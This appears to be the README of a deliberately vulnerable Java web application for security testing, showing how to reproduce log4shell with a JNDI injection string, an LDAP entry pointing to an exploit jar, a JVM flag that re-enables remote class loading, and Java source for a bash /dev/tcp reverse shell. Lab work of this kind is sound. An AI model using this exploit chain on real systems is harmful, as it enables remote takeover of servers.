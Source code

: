 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

Ensure the vulnerability works in versions of Java > 8 set the following property — JDK versions after JDKv8 disable class creation from URL codebases.

```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```
Note, a codebase can be defined as a source, or a place, from which to load classes into a virtual machine. 

If you want to debug the in-memory ldap server, you can enable unboundid debug logging using:

```
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Trigger the vulnerability by loading the LDAP entry using JNDI by supplying the following code injection into the *username* field of the `user-admin` page (other fields may work too!)

```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```


The in-memory server has the following `javaNamingReference` object which will be looked up by the JNDI service invoked by the log4j substition code path:

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` first from the local classpath (where it does not exist), then from the URL codebase provided by the LDAP entry. This triggers the download of the referenced `jar` file, and the instatiation of the `uk.ac.jisc.cybersec.rce.RceExploit` class. Triggering the static method in the malicious class:

```
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```
